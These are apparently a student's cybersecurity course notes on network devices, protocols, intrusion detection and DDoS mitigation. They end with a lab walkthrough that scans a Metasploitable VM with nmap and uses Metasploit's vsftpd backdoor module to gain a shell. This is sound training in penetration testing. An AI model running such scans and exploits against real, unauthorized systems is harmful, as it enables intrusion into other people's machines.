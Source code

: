 # CodePath 7/2/25 Lecture

## Networks

### Network Devices

-   Router
    -   Communicates between internet and endpoint devices
    -   Directs incoming & outgoing traffic in fastest possible way
    -   Can provide network-level protection against cyber attacks
    -   Operates on Network layer
-   Switch
    -   Connects devices to create a network
    -   Uses packet switching to receive and forward data
    -   Operates on Data Link Layer
-   Routers and Switches
    -   ![l1](image.png)
-   Firewalls
    -   Network security system
    -   Monitors and controls incoming & outgoing network traffic
    -   Establishes a barrier between trusted & untrusted network
    -   ![l2](image-1.png)
-   Load Balancers
    -   Distributes network traffic across multiple servers
        -   No single server is overloaded with demand
    -   Improves application responsiveness & availability
    -   Helps prevent DDoS attacks
-   Network without Load Balancing
    -   ![l3](image-2.png)
-   Network with Load Balancing
    -   ![l4](image-3.png)

### Protocols

-   Protocol: a set of implementation-agnostic rules for completing a task.
-   Media Access Control (MAC) Addresses
    -   All computers in a “broadcast domain” receive all transmissions
    -   MAC address indicates which computer data is intended for
    -   MAC address is attached to data before broadcasting
    -   You should have your MAC address in your terminal from ipconfig (Windows) or ifconfig (Mac) earlier [Don’t share it!]
-   Address Resolution Protocol (ARP)
    -   Protocol used for discovering MAC addresses from IP addresses
    -   Sender asks for MAC address associated with IP
        -   Computer with corresponding IP responds with MAC address
    -   ![l5](image-4.png)
-   Domain Name System (DNS)
    -   Translates domain names (e.g. docs.google.com) to IP addresses
    -   Let’s look at the steps of DNS resolution …
    -   DNS Resolution
        -   ![l6](image-5.png)
-   Dynamic Host Configuration Protocol (DHCP)
    -   Server that automatically assigns IP addresses and other network parameters
    -   Device requests IP from DHCP server to access network
    -   DHCP server monitors use of addresses and can revoke them
    -   Reduces network administration & minimizes address conflicts and other errors
-   Routing
    -   Process of selecting a path for traffic within and between networks
    -   Algorithms are used to optimize routing
        -   Distance vector
        -   Link-state
        -   Optimized Link State
        -   Path-vector
    -   Network acts autonomously to avoid failure and blockages
-   Border Gateway Protocol (BGP)
    -   A routing protocol
    -   Not all networks belong to the same organization
    -   BGP accounts for business considerations, e.g. charges for carrying traffic
-   BGP Hijacking
    -   BGP route-sharing relies on trust
        -   Networks implicitly trust routes shared with them
    -   Hijacking: attackers maliciously reroute internet traffic
        -   Falsely announce ownership of groups of IP addresses
    -   ![l7](image-6.png)

### Network Vulnerabilities

-   Network intrusion: unauthorized access of a computer or address within an assigned domain.
-   Network Intrusion Detection
    -   Monitoring a network for malicious activity
    -   Wide range, including antivirus software and tiered monitoring systems
    -   Signature detection: detects possible threats by looking for specific patterns, such as byte sequences in network traffic, or known malicious instruction sequences
    -   Anomaly-based detection: detects and adapts to unknown attacks, especially useful due to increase in malware
        -   Ex: I don't know how you're sick when you're sick but you know your nose shouldn't be stuffy
-   Network Intrusion Prevention Strategies
    -   Network intrusion prevention system: monitors all network traffic and proactively scans for threats
    -   Host intrusion prevention system: installed on an endpoint, looks at inbound & outbound traffic from that device only
        -   Last line of defense
    -   Network behavior analysis: detects unusual traffic flows, spots zero-day vulnerabilities
    -   Wireless intrusion prevention system: scans WiFi network for unauthorized access
-   Analysis of Network Traffic
    -   Continuous collection of real-time and historical network data
    -   Detecting malware
    -   Detecting vulnerable protocols and ciphers
    -   Eliminating blind spots in the network
-   Distributed Denial of Service (DDoS)
    -   Flooding a service with an overwhelming amount of traffic in an attempt to take the service offline
    -   Identifying a DDoS attack:
        -   High volume of traffic from one IP address or IP range
        -   Flood of traffic from users with a similar profile e.g. device type
        -   Unexplained surge in requests to a single endpoint
        -   Spikes of traffic at odd hours
-   Mitigating DDoS Attacks
    -   Key idea: differentiate between attack traffic & normal traffic
    -   Blackhole routing: funnel traffic into a null route
        -   Makes network inaccessible for all funneled traffic
    -   Rate limiting: limit the number of requests a server accepts in a given timespan
        -   Struggles to handle a multi-vector DDoS
    -   Traffic scrubbing: traffic is redirected to a datacenter and cleaned before forwarding to original destination

### Week 5 Project 4: Exploits!

-   We'll be scratching the surface of penetration testing, in which we purposefully try to gain access to a vulnerable system
-   So, it's not easy to hack into a computer. (Thankfully!) Modern computer systems have full Security Teams that are constantly working to patch and prevent vulnerabilities.
-   That's where Metasploitable comes in. It's a Virtual Machine that has been purposefully left unpatched, so that people like us can use it to learn cybersecurity!
-   Run metasploitable using a docker image `docker start -ai metasploitable`
-   Open a second terminal window and in both the metasploitable and second terminal window type `lsb_release -a` which provides more information about the system.
-   Compare network address info using `ifconfig`
    -   ![p1](Screenshot%202025-07-08%20192035.png)
    -   ![p2](Screenshot%202025-07-08%20192303.png)
-   Perform a basic scan of Metasploitable using its IP address `nmap -p 0-65535 172.17.0.2`
    -   This scans ports 0-65535
    -   We're looking for port 21 running ftp
-   Scan port 21 for vulnerabilities `nmap 172.17.0.2 --script vuln -p 21`
    -   ![p3](Screenshot%202025-07-08%20192109.png)
    -   Notice the ftp-vsftpd-backdoor
-   Run `msfconsole` to launch metasploit
-   Search for vsftpd exploits using `search vsftpd`
-   To use the excellent ranked module, type `use 1`
-   To show its available settings and required information, type `options`
    -   ![p4](Screenshot%202025-07-08%20192159.png)
-   Set the Remote Host IP address using `set RHOSTS 172.17.0.2`
-   To run the exploit, type `exploit`
-   To confirm have access to metasploitable through our vm check its system and network information against the ones we documented earlier
    -   ![p5](Screenshot%202025-07-08%20192236.png)
-   Type `exit` to exit from _metasploitable_, and `exit` again to exit _metasploit_
